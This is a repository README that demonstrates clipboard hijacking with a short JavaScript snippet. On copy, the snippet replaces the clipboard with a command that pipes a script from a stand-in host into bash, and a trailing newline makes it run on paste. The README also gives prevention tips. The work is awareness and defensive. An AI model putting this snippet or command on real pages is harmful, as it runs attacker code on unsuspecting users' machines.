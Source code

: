 # copy-paste-hack-js
During their job, developers often copy and paste code from the Internet from sources like Stackowerflow and other websites.  
I have found an **exploit**, with just some lines of JavaScript code, that can alter the copy-paste feature of any browser and make you paste (and execute) a different kind of code.

A running **demo** based on the content of this repository can be found here:  
[**TRY IT NOW**](https://marco97pa.github.io/copy-paste-hack-js/)

## How it works behind the scenes
Using plain JavaScript we detect every time there is a "copy" event on the text the user needs to copy.
When it happens, we set the clipboard content of the user with a different code, as we wish.
We also add a "/n" to simulate the Enter key and execute the code right away.

```javascript
document.getElementById('copyme').addEventListener(
    'copy', function(e){
        e.clipboardData.setData('text/plain',
        'curl https://your.bad.code.sh | bash\n');
        e.preventDefault();
    }
)
```
## How to prevent it from happening
- Always copy code from trusted sources and websites
- Always check the code and if you can't understand it, don't run it
- Some modern terminals like Windows Terminal display a warning message whenever you are trying to paste a multiline code (like the one in this exploit) and it will show up the code on the screen before getting executed. Just make sure to not ignore those helpful warnings. 